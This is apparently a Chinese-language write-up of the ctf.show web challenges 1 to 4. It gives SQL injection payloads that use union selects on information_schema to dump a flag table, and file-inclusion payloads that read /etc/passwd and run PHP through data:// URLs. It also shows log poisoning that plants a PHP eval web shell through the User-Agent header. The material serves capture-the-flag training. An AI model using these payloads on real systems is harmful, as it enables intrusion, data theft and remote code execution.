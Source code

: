 + 网址：[ctf.show](https://ctf.show/challenges)

## web1

+ 启动环境，右键检查元素，直接找到<code>flag</code>

![web1_1](./img/web1_1.PNG)



## web2

+ 启动环境，根据提示这一关是<code>sql</code>注入，打开后发现有几个注入点

![web2_1](./img/web2_1.PNG)



+ 注入万能语句，成功找到注入点

~~~ shell
1' or 1=1 #
~~~

![web2_2](./img/web2_2.png)



+ 注入以下语句，得到回显的位置

~~~ shell
1' union select 1,2,3#
~~~

![web2_3](./img/web2_3.PNG)



+ 联合查询，得到数据表名

~~~ shell 
1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database()#
~~~

![web2_4](./img/web2_4.png)



+ 继续联合查询，得到字段名

~~~ shell
1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='flag'#
~~~

![web2_5](./img/web2_5.png)



+ 最后爆破字段，得到<code>flag</code>

~~~ shell
1' union select 1,flag,3 from flag#
~~~

![web2_6](./img/web2_6.PNG)



## web3

+ 打开<code>web3</code>界面

![web3_1](./img/web3_1.PNG)

由文字解析，由于包括<code>include</code>可知这是文件包含漏洞



+ 首先注入以下语句

~~~ shell
?url=/etc/passwd
~~~

![web3_2](./img/web3_2.PNG)

可看到有回显位，由此知道注入成功



+ 注入语句查询当前目录下的文件结构

~~~ shell
?url=data://text/plain,<?php print_r(glob("*"))?>
~~~

![web3_3](./img/web3_3.PNG)



+ 查看<code>ctf_go_go_go</code>文件

~~~ shell
?url=data://text/plain,<?php system("cat ctf_go_go_go"); ?>
~~~

![web3_4](./img/web3_4.PNG)

得到<code>flag</code>



## web4

+ 查看页面如下，看解释仍然是文件包含漏洞

![web4_1](./img/web4_1.PNG)



+ 使用如下语句查看当前目录下所有文件

~~~ shell
?url=data://plain/text,<?php print_r(glob('*'))?>
~~~

![web4_2](./img/web4_2.PNG)

发生了错误，此路不通，考虑换一种方法



+ 使用如下语句查看日志文件

~~~ shell
?url=/var/log/nginx/access.log
~~~

![web4_3](./img/web4_3.PNG)



+ 用<code>burpsuite</code>拦截该请求

![web4_4](./img/web4_4.PNG)



+ 注入如下语句到参数<code>User-Agent</code>中

~~~ shell
<?php @eval($_POST["ctfshow"]); ?>
~~~

![web4_5](./img/web4_5.PNG)

放包后成功注入到该页面中



+ 这道题挑战失败，原因是蚁剑连接不上

![web4_6](./img/web4_6.PNG)



